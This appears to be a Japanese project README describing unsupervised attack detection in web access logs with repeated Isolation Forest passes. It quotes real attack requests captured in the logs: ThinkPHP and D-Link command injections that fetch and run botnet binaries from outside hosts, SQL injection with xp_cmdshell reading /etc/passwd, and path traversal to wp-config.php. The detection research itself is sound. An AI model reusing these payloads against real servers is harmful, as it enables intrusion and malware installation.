

# Walu(Web Application Log Unveiler)

https://www.scutum.jp/information/waf_tech_blog/2021/01/waf-blog-077.html
 
　上記Blog（WAF Tech Blog）から自分なりに調査した結果のメモ。

　ラベル付け無しに攻撃を検知したい。そのためには正常系から離れたデータ、つまり「外れ値」を攻撃と定義して、異常検知アルゴリズムを用いる。上記blogではIsolation forestを使用。データセットは[Harvard Dataverse](https://dataverse.harvard.edu/dataset.xhtml?persistentId=doi:10.7910/DVN/3QBYB5)にあるAccess.log.zip。イラン実在のショッピングサイトにおける2019年1月からの数日間のアクセスログをNginxにより取得。1036万行（3.3GB）。

　上記blogと同条件で取り出したデータから、ランダムに抽出した10000件のデータを2次元にマッピング（画像1）。データセットを調査するとScale-freeしている。[ipynb/viz01.ipynb](ipynb/viz01.ipynb) [[mybinder.org](https://mybinder.org/v2/gh/kenjiaiko/Walu/main?filepath=ipynb%2Fviz01.ipynb)]

（画像1）

　異常検知において正常系と判断されるのは大きなクラスタ、よって小さいクラスタ群が外れ値となる。データセットがScale-freeしているため外れ値となったクラスタ群を集めて再度Isolation forestを適用すれば、さらなる外れ値が算出される。スコアの閾値を0.25にし、2回Isolation forestを適用すると

```
$ ./run.sh 2 0.25
```

```
$ head -n 2 data/result_by_ip.txt
0.186 185.222.202.118 - - [22/Jan/2019:09:15:46 +0330] "GET /public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cd%20/tmp;wget%20http://185.222.202.118/bins/rift.x86;cat%20rift.x86%20%3E%20efjins;chmod%20777%20efjins;./efjins%20thinkphp HTTP/1.1" 301 178 "-" "python-requests/2.4.3 CPython/2.7.9 Linux/3.16.0-4-amd64" "-"
0.188 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　1,2行目に明確な攻撃がくる。61,62行目にはSELECT,UNIONを含んだもの。

```
0.261 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] "GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1035 "-" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4" "-"
0.261 5.101.40.234 - - [23/Jan/2019:06:53:01 +0330] "GET /image/{{basketItem.id}}?type=productModel&wh=50x50&fhnz%3D1551%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 301 178 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.3 Safari/534.24" "-"
```

　次に専門家による特徴選択をしないケース。例えば特定の文字（Char）のCountのみを特徴とする場合。

```
$ python printspchars.py > features.txt
$ ./run.sh 2 0.30
```

　先頭から怪しいアクセスは続くが、明確なのは11行目以降。
 
```
0.204 108.61.86.94 - - [24/Jan/2019:13:08:01 +0330] "GET /login.cgi?cli=aa%20aa%27;wget%20http://108.61.86.94/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1" 400 166 "-" "Solstice/2.0" "-"
```

　それなりには攻撃アクセスが上位（低いスコア）になっている。ただし、先ほど2行目にあったアクセスは、こちらでは107行目：スコア0.344とかなり遅い登場。

```
0.344 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　当然、専門家が特徴を設定した方が良いが、適当な特徴でもそれなりに（分析には差し障りない程度に）良い結果が得られるようである。

### 分析

- 上記BlogではJavaで書かれているが、それとほぼ同様のpythonコード。[ipynb/viz02.ipynb](ipynb/viz02.ipynb)
- ラベルのない1036万行のデータに対してIsolation forestを繰り返す。
- IPごとにもっともScoreの高いアクセスを抽出。742行。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)
- 742行を人間が確認。

　全ての外れ値が真に攻撃であるならこれでOKなのだが、当然そうではないので、ここからは人間が確認していく。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)の最初の29行ほどは/rapidGrails/jsonListリクエストが続く。まぁ攻撃ではないだろう。そして30行目に明確な攻撃が見つかる。
 
 ```
-0.7341514235140854 202.70.250.38 - - [24/Jan/2019:15:58:56 +0330] GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.255.25.168/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1\x00 400 166 - - -
```

　最初のパターンはindex.phpに対してshell_exec, wgetをするもの。他にも複数見つかる（32-50行目）。これをpattern1とする。続いて51行目。

```
-0.7335728824690786 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1 200 1035 - Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4 -
```

　UNION, SELECT, script, alertが入ったもの。明らかに攻撃を意図したアクセス。これをpattern2。その後pattern1が続き、126行目に再びpattern2が出てくる。そして206行目。

```
-0.6859619404158754 151.25.29.64 - - [22/Jan/2019:05:55:47 +0330] GET /login.cgi?cli=aa%20aa%27;wget%20http://217.61.5.226/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1 400 166 - Solstice/2.0 -
```

　login.cgi, wgetが入ったもの。これをpattern3。

```
-0.6626657948031308 37.137.14.150 - - [22/Jan/2019:16:09:03 +0330] GET /m/product/33487/64141/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR%22%3E%3Cdiv%20class%3D%22kharid-khoob%22style%3D%22background-image%3A%20url%28%2FdiscountLabel%2Fget%2F3?utm_content=2005&utm_medium=26&utm_campaign=GPB&utm_term=209&type=desktopSmallIcon%29%3Bwidth%3A75px%3Bheight%3A77px%3B%3Futm_source%3D6 HTTP/1.1 404 211 https://www.garda.ir/%D9%84%D9%88%D8%A7%D8%B2%D9%85-%D8%AE%D8%A7%D9%86%DA%AF%DB%8C-%D9%88-%D8%A2%D8%B4%D9%BE%D8%B2%D8%AE%D8%A7%D9%86%D9%87/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D9%88%D8%B4/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR-214503 Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13G36 Safari/601.1 -
```

```
-0.6582348010972741 2.183.9.23 - - [23/Jan/2019:10:36:16 +0330] GET /image/29/productTypeTy%3C/div%3E%3Cstyle%3E.notFoundList%20%7Bdisplay:%20block;padding-top:%2010px;%7D.notFoundList%20li%20%7Blist-style:%20none;display:%20inline-block;margin:%205px;%7D.notFoundList%20a%20%7Blist-style:%20none;background:%20 HTTP/1.1 200 11 https://www.zanbil.ir/filter/b136,b261,b74,p5 Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36 -
```

　230行目、/m/product/にdivタグを入れたもの。pattern4。242行目、/divタグで閉じたもの。pattern4亜種。

```
-0.6057850284293474 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1 301 178 - Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0 -
```

```
-0.5928439132758191 104.249.46.47 - - [26/Jan/2019:18:30:49 +0330] GET /image/27458?name=...............1.jpg&wh=200x200 HTTP/1.1 200 5937 - Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko -
```

　304行目、../wp-config.php。pattern5。315行目、name=....jpg。（攻撃じゃないが）一応pattern5亜種。

　以上が攻撃アクセス。pattern1-5を検知する手法を考案すれば良い。

　ラベルが付けばあとは適当なアルゴリズムで学習させれば良い。課題はいかに「ラベル付け」を自動化できるか。今回は最後の742行を人間が確認したが、これを完全に自動化できればデータセットから攻撃のみを検知できる。もちろんIsolation forestだけ（というより単一のアルゴリズムだけ）では無理だろうが、その解決法を探すことが課題となる。
